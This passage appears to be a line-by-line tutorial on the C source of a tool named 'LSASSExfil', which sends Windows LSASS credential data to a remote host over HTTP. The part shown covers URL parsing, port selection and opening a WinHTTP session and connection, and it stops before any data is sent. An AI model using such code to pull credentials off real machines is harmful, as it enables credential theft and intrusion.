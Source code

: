 ```
if (!WinHttpCrackUrl(wUrl, (DWORD)wcslen(wUrl), 0, &urlComp)) {
            fprintf(stderr, "[-] WinHttpCrackUrl failed: %u\n", GetLastError());
            free(wUrl);
            goto cleanup;
        }
```

`WinHttpCrackUrl` :

1. `wUrl`: wide-char URL, e.g., `L"http://host:port/path"`.
2. `dwUrlLength`: length in WCHARs; here `(DWORD)wcslen(wUrl)` excludes null. Some examples pass `-1` to include null; using `wcslen` works.
3. `dwFlags=0`: no flags.
4. `&urlComp`: pointer to the struct to receive parsed components.

```
BOOL isHttps = (urlComp.nScheme == INTERNET_SCHEME_HTTPS);
        INTERNET_PORT port = (urlComp.nPort == 0)
            ? (isHttps ? INTERNET_DEFAULT_HTTPS_PORT : INTERNET_DEFAULT_HTTP_PORT)
            : urlComp.nPort;
```

- `urlComp.nScheme`: parsed scheme, e.g. `INTERNET_SCHEME_HTTP` or `INTERNET_SCHEME_HTTPS`.
- `isHttps`: TRUE if scheme is HTTPS.
- `urlComp.nPort`: parsed port number; if zero (not specified in URL), choose default:
- If HTTPS, default 443 (`INTERNET_DEFAULT_HTTPS_PORT`).
- Else default 80 (`INTERNET_DEFAULT_HTTP_PORT`).
- If URL explicitly specified a port (nonzero), use that.

```
HINTERNET hSession = WinHttpOpen(
            L"LSASSExfil/1.0",
            WINHTTP_ACCESS_TYPE_DEFAULT_PROXY,
            WINHTTP_NO_PROXY_NAME,
            WINHTTP_NO_PROXY_BYPASS,
            0);
```

`WinHttpOpen`:

1. `pwszUserAgent`: wide-char user-agent string, e.g. `"LSASSExfil/1.0"`. Appears in HTTP headers.
2. `dwAccessType`: `WINHTTP_ACCESS_TYPE_DEFAULT_PROXY`, use system default proxy settings.
3. `pwszProxyName`: `WINHTTP_NO_PROXY_NAME`, no custom proxy name
4. `pwszProxyBypass`: `WINHTTP_NO_PROXY_BYPASS`, no bypass list.
5. `dwFlags`: `0`, no flags.

```
HINTERNET hConnect = WinHttpConnect(
            hSession,
            urlComp.lpszHostName,
            port,
            0);
```

`WinHttpConnect`:

